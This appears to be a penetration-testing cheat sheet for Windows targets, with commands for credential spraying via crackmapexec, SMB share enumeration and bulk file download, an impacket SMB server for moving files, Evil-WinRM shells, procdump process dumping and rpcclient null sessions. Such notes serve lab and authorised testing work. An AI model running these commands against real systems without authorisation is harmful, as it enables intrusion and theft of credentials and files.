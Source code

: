 # Windows

## SMB

### Crackmapexec

> Swiss army knife for pentesting networks

```bash
crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.149
crackmapexec smb ip --pass-pol # to get password policy (min len, lockout?, ...)
```

### SMB Client

```bash
smbclient //ip/share  # Don't forget // at beginning
smbclient -L //ip/    # List shares
```

Mount SMB Shares:

```bash
sudo mount -t cifs //ip/share /mnt/user/
sudo mount -t cifs -o 'username=admin,password=secret' //ip/share /mnt/user/
```

Get files recursively:

```bash
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### SMB Server

Create Server on Linux host, access from Windows.

```bash
# Linux
impacket-smbserver mysharename $(pwd) -smb2support -user fredilein -password pw
# Windows
$pass = convertto-securestring 'pw' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('fredilein', $pass)
New-PSDrive -Name fredilein -PSProvider FileSystem -Credential $cred -Root \\myip\mysharename
```

## Others

### Sysinternals Suite

> Official Microsoft tools to do everything Windows.

* _procdump64.exe_ to dump processes

{% hint style="warning" %}
_Tip for IRL_: Creates registry entry when running
{% endhint %}

### Evil-Winrm

Get a shell with username/password. Can test for winrm with crackmapexec first.

```bash
upload <local.txt>    # Easily upload kali files to windows
```

### rpcclient

```bash
rpcclient -U 'username%password' 10.10.10.149
rpcclient -U '' ip     # Sometimes let's you connect on old windows systems
```

